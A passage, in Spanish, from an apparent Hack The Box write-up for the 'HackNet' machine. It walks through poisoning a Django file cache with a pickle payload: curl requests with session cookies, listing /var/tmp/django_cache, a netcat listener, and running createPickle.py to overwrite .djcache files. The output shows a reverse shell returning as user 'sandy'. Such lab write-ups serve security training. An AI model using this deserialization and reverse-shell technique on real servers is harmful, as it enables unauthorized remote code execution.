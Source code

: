 ```shell
chmod +x createPickle.py
```

Ahora tendremos que realizar una peticion para que se `caché` de esta forma:

```shell
curl -H 'Host: hacknet.htb' -H 'Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk' 'http://hacknet.htb/explore?page=1'
```

Echo esto se deberia de guardar los archivos `djcache` en dicha carpeta:

```shell
ls -la /var/tmp/django_cache/
```

Info:

```
total 84
drwxrwxrwx 2 sandy www-data 73728 Oct  5 08:20 .
drwxrwxrwt 4 root  root      4096 Oct  5 00:00 ..
-rw------- 1 sandy www-data    34 Oct  5 08:20 92edc87e91d6f8579414a59afd91bfb8.djcache
-rw------- 1 sandy www-data  2130 Oct  5 08:20 bcba2a1d7459dd42955800c851927d26.djcache
```

Ahora si tendremos que ejecutar el script, pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Si ejecutamos el script veremos lo siguiente:

```shell
python3 createPickle.py
```

Info:

```
[+] Written payload to bcba2a1d7459dd42955800c851927d26.djcache
[+] Written payload to 92edc87e91d6f8579414a59afd91bfb8.djcache
```

Ahora seguidamente en otra terminal ejecutaremos lo siguiente de nuevo para que cargue el `cache` sobreescrito:

```shell
curl -H 'Host: hacknet.htb' -H 'Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk' 'http://hacknet.htb/explore?page=1'
```

Nos mostrar la pagina en codigo `HTML`, pero si vamos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 9999 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.85] 50150
whoami
sandy
```
